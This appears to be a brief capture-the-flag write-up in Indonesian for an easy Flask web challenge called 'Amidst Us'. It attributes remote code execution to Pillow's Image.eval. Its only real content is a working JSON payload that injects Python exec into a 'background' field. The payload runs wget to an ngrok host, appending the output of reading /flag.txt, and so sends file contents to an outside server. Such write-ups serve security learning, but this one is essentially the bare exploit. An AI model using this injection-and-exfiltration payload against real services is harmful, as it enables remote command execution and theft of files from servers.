 # Amidst Us
#easy #web #rce #flask

Command execution pada Image.eval dalam library Pillow

```sh
"background":["exec('import os; os.system(\"wget https://3beb-182-23-106-58.ngrok.io/`cat /flag.txt`\")')",255,255]}
```

